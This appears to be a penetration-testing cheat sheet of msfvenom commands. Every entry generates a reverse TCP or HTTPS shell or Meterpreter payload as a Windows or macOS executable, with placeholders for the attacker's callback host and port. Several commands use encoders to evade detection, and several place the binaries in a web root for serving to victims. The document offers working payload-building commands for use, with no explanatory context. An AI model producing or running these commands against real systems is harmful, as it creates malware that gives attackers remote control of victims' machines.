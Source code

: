 ## msfvenom - Windows x64 Shell Reverse TCP
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe -o shell_x64.exe
```

## msfvenom - Windows x86 Meterpreter Reverse TCP (encoded)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -e x86/shikata_ga_nai -i 3 -f exe -o encoded.exe
```

## msfvenom - Windows x64 Meterpreter Reverse TCP (encoded)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -e x64/xor_dynamic -i 3 -f exe -o encoded_x64.exe
```

## msfvenom - macOS x86 Shell Reverse TCP
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f macho -o shell.macho
```

## msfvenom - macOS x64 Shell Reverse TCP
```
msfvenom -p osx/x64/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f macho -o shell_x64.macho
```

## msfvenom - Windows x64 Meterpreter Reverse HTTPS (non-staged)
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<lhost> LPORT=<lport|443> -f exe -o /var/www/html/msfnonstaged.exe
```

## msfvenom - Windows x64 Meterpreter Reverse HTTPS (staged)
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> -f exe -o /var/www/html/msfstaged.exe
```

## msfvenom - Windows x86 Meterpreter Reverse HTTPS (staged)
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> -f exe -o /var/www/html/msfstaged_x86.exe
```

## msfvenom - Windows x86 Meterpreter Reverse HTTPS (non-staged)
```
msfvenom -p windows/meterpreter_reverse_https LHOST=<lhost> LPORT=<lport|443> -f exe -o /var/www/html/msfnonstaged_x86.exe
```
